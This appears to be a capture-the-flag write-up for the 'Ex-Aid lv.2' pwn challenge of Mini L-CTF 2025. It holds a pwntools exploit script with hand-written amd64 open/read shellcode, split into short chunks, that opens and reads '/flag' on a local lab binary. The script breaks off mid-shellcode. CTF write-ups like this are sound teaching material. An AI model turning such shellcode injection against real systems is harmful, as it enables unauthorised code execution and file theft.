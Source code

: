 # Mini L-CTF 2025 Pwn Writeup

## Ex-Aid lv.2

签到题，将 orw 分成 3 段，每段 0x18 字节，可以用短转移指令连接。

```python
#! /usr/bin/env python3
from pwn import *
from ctools import *

### CONFIG ========================================

context(os="linux", arch="amd64")

elf_path = './checkin'
libc_path = './libc.so.6'

config = {
    'host': '127.0.0.1',
    'port': 45495,
    'target': 'REMOTE',
    'args': [],
    'preload': [libc_path],
    'elf_path': elf_path,
    'libc_path': libc_path,
    'apath': '.',
}

TMUX_TERMINAL() # use tmux terminal
DEBUG = lambda s='', l=True, m=False: udebug(io, script=s, load=l, source=m)

cct(**config)
cct.init()

### CONFIG END ===================================

io = conn()
# context.log_level = "debug"
 
elf = ELF(elf_path)
libc = ELF(libc_path, checksec=False)

def exp():
    shellcode = [
    """
        mov rax, 0x67616c662f
        push rax
    """, 
    """
        push rsp ; pop rdi
        xor rsi, rsi
        xor rdx, rdx
        push __NR_open ; pop rax
        syscall
    """,
    """
        push rax ; pop rdi
        push rsp ; pop rsi
        push 0x50 ; pop rdx
        push __NR_read ; pop rax
        syscall
```